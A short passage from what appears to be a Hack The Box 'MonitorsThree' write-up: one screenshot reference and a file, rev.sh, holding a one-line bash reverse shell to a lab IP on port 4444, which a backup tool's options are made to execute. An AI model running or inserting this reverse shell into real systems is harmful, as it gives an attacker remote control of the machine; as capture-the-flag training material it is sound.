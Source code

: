 ![options](../assets/img/posts/htb-monitorsthree/options.png)

Here's the simple reverse shell script we have the back-up options execute:
```shell
marcus@monitorsthree:~$ cat rev.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.235/4444 0>&1
```
